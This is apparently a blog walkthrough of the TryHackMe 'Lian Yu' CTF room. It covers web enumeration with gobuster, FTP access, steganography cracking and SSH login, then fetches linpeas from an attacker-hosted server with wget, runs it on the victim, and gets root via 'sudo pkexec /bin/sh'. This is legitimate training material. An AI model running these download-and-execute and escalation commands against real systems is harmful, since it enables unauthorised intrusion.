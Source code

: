 ```yaml
---
layout: post
title: " Lian Yu - TryHackMe"
date: 2020-07-13
excerpt: "Walkthrough for Lian Yu on TryHackme"
tags: [Lian Yu, TryHackMe, privilege escalation, steganography, website enumeration]
comments: false
---
```


Lian Yu is another beginner level challenge on [TryHackMe](https://www.tryhackme.com). Below is a walkthrough to Find all the flags.

First, let's run nmap with **nmap -sC -sV -T4 [machine ip]**

![Lian Yu nmap](/assets/img/LianYu1.png)

It appears that there is ftp, ssh, tcp, and rpc open. Let's start by taking a look at the website in a web browser. It appears that this website is based on the DC comic book hero, Arrow.

![Lian Yu website](/assets/img/LianYu2.png)

Let's use gobuster to enumerate the website. Let's run **gobuster dir -u [machine ip] -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-small.txt**. After a bit, an **island** subdirectory shows up.

![Lian Yu gobuster](/assets/img/LianYu3.png)

Let's visit the page. It looks like there's a code word, but it doesn't show up. Highlighting the entire page causes it to show up, however.

![Lian Yu island page](/assets/img/LianYu4.png)

Lian_Yu appears in bold, so let's try both ftp ssh in as Lian_Yu. Unfortunately, neither one was successful.

![Lian Yu failed ssh and ftp](/assets/img/LianYu5.png)

We will make note of this code word for later. Next, the hint for the first question is saying the directory is in numbers. It also appears to be 4 digits in length. Let's create a file that contains numbers from 0000 to 9999 with the following **seq -w 9999  > pins.txt**. This will create a text file with all these numbers in it. Let's run **gobuster dir -u http://[machine ip]/island -w pins.txt** and see what shows up. It appears there is another subdirectory of **2100** underneath island. This is the answer to the first question.

![Lian Yu gobuster 2100](/assets/img/LianYu6.png)

There is a video on this page, but it appears to be a part of the first episode of the Arrow television series. When I look at the source of the page, however, there is a comment as shown below.

![Lian Yu 2100 page source](/assets/img/LianYu7.png)

The hint for this question mentions searching for a file by extension, maybe .ticket is the file extension? I navigated to the dirbuster wordlist with **cd /usr/share/wordlists/dirbuster** and ran **pw-inspector -i directory-list-lowercase-2.3-medium.txt -m 11 - M 11 -o ~/arrow.txt**. I knew the file was 11 characters before the potential extension of ticket based on the format of the answer in TryHackMe. I then used this as the wordlist in gobuster under the /island/2100 directory as follows **gobuster dir -u http://[machine ip]/island/2100/ -w arrow.txt -x .ticket**. Within a couple of moments it uncovers **green_arrow.ticket**.

![Lian Yu green_arrow.ticket](/assets/img/LianYu8.png)

Let's navigate to that page. We are provided with a "token". The hint states it appears to be base, so use cyberchef as recommended and you will eventually figure out it was encoded in Base58. This decoded is the ftp password, which is the answer to the 3rd question.

![Lian Yu Base 58 decode](/assets/img/LianYu10.png)

Let's try logging in to the site via ftp, as we have the password. Remember vigilante that we uncovered earlier? Let's see if that's the user.

![Lian Yu FTP Access](/assets/img/LianYu11.png)

Success! Let's see what's on this ftp site.

![Lian Yu ftp directory listing](/assets/img/LianYu12.png)

Let's save all these pictures and see what they are with **get Leave_me_alone.png, get Queen's_Gambit.png,** and **get aa.jpg**.

![Lian Yu get files](/assets/img/LianYu13.png)

Let's type **quit** and then open up these images to see what's in them. **aa.jpg** and **Queen's_Gambit.png** open fine, but there is an error when attempting to open **Leave_me_alone.png**. .jpg files can be used in steganography, so let's use stegcracker with **stegcracker aa.jpg**. After a few moments, it uncovers the password of password, and extracts the contents to aa.jpg.out.

![Lian Yu stegcracker](/assets/img/LianYu14.png)

Running **file aa.jpg.out** reveals that this is a zip file, let's rename it to .zip with **mv aa.jpg.out aa.zip**

![Lian Yu change file to zip](/assets/img/LianYu15.png)

Inside the zip files are two files, one is a 5 character name, which is the answer to the next question.

![Lian Yu Open Zip File](/assets/img/LianYu16.png)

The 5 letter file name includes the ssh password. However, we do not have a username and vigilante does not work. Let's reconnect as vigilante via ftp and type **cd ..** followed by **ls** to list all the user directories.

![Lian Yu enumerate user folders via ftp](/assets/img/LianYu17.png)

It appears that slade is another user. Let's try logging in via ssh as slade with **ssh slade@[machine ip]** and utilize the password uncovered in the zip file earlier. Success, let's run **ls** and a user.txt file is there. Let's run **cat user.txt** to uncover the user flag.

![Lian Yu ssh connection](/assets/img/LianYu19.png)

Let's use linpeas to enumerate this host for interesting files. First, let's server up an http server with **python3 -m http.server**

![Lian Yu Python HTTP Server](/assets/img/LianYu20.png)

Now, let's navigate to the /tmp folder on our victim with **cd /tmp** since it's typically a world writeable directory. Next, let's use **wget http://[attacker op]:8000/linpeas.sh** followed by **chmod 777 linpeas.sh** and finally **./linpeas.sh** to start enumerating our host. Unfortunately, this does not turn up much. Let's run **sudo -l** and see what shows up.

![Liam Yu sudo -l](/assets/img/LianYu22.png)

Let's run **sudo /usr/bin/pkexec /bin/sh**. Now we have a root shell.

![Lian Yu Root Shell](/assets/img/LianYu23.png)

Now let's run **cd /root**, followed by **ls**, and then finally, **cat root.txt** to get the final flag.

![Lian Yu Root Flag](/assets/img/LianYu24.png)

